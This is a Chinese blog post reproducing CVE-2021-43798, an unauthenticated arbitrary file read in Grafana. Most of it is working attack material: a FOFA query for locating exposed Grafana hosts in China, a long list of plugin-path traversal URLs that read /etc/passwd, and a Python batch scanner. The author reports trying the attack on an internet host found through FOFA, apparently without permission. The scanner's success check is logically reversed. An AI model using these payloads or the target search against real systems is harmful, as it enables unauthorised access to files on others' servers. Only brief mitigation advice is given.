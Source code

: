 ```yaml
---
title: CVE-2021-43798（Grafana 未授权任意文件读取漏洞）
comments: true
date: 2022-01-18 23:21:08
tags: ["Grafana", "漏洞复现"]
categories:
- 渗透测试
cover: https://image.geoer.cn/img/image-20220118233456399.png
top_img:
description:
---
```




## 漏洞描述

Grafana是一个跨平台、开源的数据可视化网络应用程序平台。用户配置连接的数据源之后，Grafana可以在网络浏览器里显示数据图表和警告。

Grafana 存在未授权任意文件读取漏洞，攻击者在未经身份验证的情况下可通过该漏洞读取主机上的任意文件。



## 影响范围

经测试，目前最新版本（Grafana v8.2.6）仍存在漏洞。





## 漏洞成因

主要是插件原因，查看代码是插件目录直接和requestedFile进行合并，没有进行过滤

参考这篇文章：https://mp.weixin.qq.com/s/dqJ3F_fStlj78S0qhQ3Ggw



## 漏洞复现

### FOFA 查询

```bash
app="Grafana" && country="CN" && body="v8."
```

在fofa上面找的一个ip进行测试，只需要简单抓包，将路径改掉，就可以读取文件内容：

![](https://image.geoer.cn/img/image-20220118233442024.png)

### Fuzz些插件列表

```
/public/plugins/alertGroups/../../../../../../../../etc/passwd
/public/plugins/alertlist/../../../../../../../../etc/passwd
/public/plugins/alertmanager/../../../../../../../../etc/passwd
/public/plugins/annolist/../../../../../../../../etc/passwd
/public/plugins/barchart/../../../../../../../../etc/passwd
/public/plugins/bargauge/../../../../../../../../etc/passwd
/public/plugins/canvas/../../../../../../../../etc/passwd
/public/plugins/cloudwatch/../../../../../../../../etc/passwd
/public/plugins/dashboard/../../../../../../../../etc/passwd
/public/plugins/dashlist/../../../../../../../../etc/passwd
/public/plugins/debug/../../../../../../../../etc/passwd
/public/plugins/elasticsearch/../../../../../../../../etc/passwd
/public/plugins/gauge/../../../../../../../../etc/passwd
/public/plugins/geomap/../../../../../../../../etc/passwd
/public/plugins/gettingstarted/../../../../../../../../etc/passwd
/public/plugins/grafana-azure-monitor-datasource/../../../../../../../../etc/passwd
/public/plugins/grafana/../../../../../../../../etc/passwd
/public/plugins/graph/../../../../../../../../etc/passwd
/public/plugins/graphite/../../../../../../../../etc/passwd
/public/plugins/heatmap/../../../../../../../../etc/passwd
/public/plugins/histogram/../../../../../../../../etc/passwd
/public/plugins/influxdb/../../../../../../../../etc/passwd
/public/plugins/jaeger/../../../../../../../../etc/passwd
/public/plugins/live/../../../../../../../../etc/passwd
/public/plugins/logs/../../../../../../../../etc/passwd
/public/plugins/loki/../../../../../../../../etc/passwd
/public/plugins/mixed/../../../../../../../../etc/passwd
/public/plugins/mssql/../../../../../../../../etc/passwd
/public/plugins/mysql/../../../../../../../../etc/passwd
/public/plugins/news/../../../../../../../../etc/passwd
/public/plugins/nodeGraph/../../../../../../../../etc/passwd
/public/plugins/opentsdb/../../../../../../../../etc/passwd
/public/plugins/piechart/../../../../../../../../etc/passwd
/public/plugins/pluginlist/../../../../../../../../etc/passwd
/public/plugins/postgres/../../../../../../../../etc/passwd
/public/plugins/prometheus/../../../../../../../../etc/passwd
/public/plugins/stat/../../../../../../../../etc/passwd
/public/plugins/state-timeline/../../../../../../../../etc/passwd
/public/plugins/status-history/../../../../../../../../etc/passwd
/public/plugins/table-old/../../../../../../../../etc/passwd
/public/plugins/table/../../../../../../../../etc/passwd
/public/plugins/tempo/../../../../../../../../etc/passwd
/public/plugins/testdata/../../../../../../../../etc/passwd
/public/plugins/text/../../../../../../../../etc/passwd
/public/plugins/timeseries/../../../../../../../../etc/passwd
/public/plugins/welcome/../../../../../../../../etc/passwd
/public/plugins/xychart/../../../../../../../../etc/passwd
/public/plugins/zipkin/../../../../../../../../etc/passwd
```



```
alertmanager
grafana
loki
postgres
grafana-azure-monitor-datasource
mixed
prometheus
cloudwatch
graphite
mssql
tempo
dashboard
influxdb
mysql
testdata
elasticsearch
jaeger
opentsdb
zipkin
alertGroups
bargauge
debug
graph
live
piechart
status-history
timeseries
alertlist
candlestick
gauge
heatmap
logs
pluginlist
table
welcome
annolist
canvas
geomap
histogram
news
stat
table-old
xychart
barchart
dashlist
gettingstarted
icon
nodeGraph
state-timeline
text
```



### 脚本

```python
import requests
import sys
 
args = str(sys.argv[1])

headers = {
    "User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:80.0) Gecko/20100101 Firefox/80.0",
}

with open("./paload.txt", "r+") as f:	# paload存放的插件名
    for line in f:
        url = "http://"+args+"/public/plugins/"+str.rstrip(line)+"/../../../../../../../../../../../etc/passwd"

        req = requests.post(url, headers=headers,timeout=(3,7),allow_redirects=False)
        a=req.text
        str1='root'
        if a in str1:
            print('确认存在'+str.rstrip(line)+'路径,并存在漏洞!')
            print(url)
        else:
            print('不存在漏洞!')
```

脚本改进：多线程+批量url检测



## 漏洞分析

暂未进行

参考：https://mp.weixin.qq.com/s/dqJ3F_fStlj78S0qhQ3Ggw



## 修复建议

请关注厂商主页更新：[Grafana: The open observability platform | Grafana Labs](https://grafana.com/)

临时修复建议：

1、通过防火墙等安全设备设置访问策略，设置白名单访问。

2、如非必要，禁止公网访问该系统。
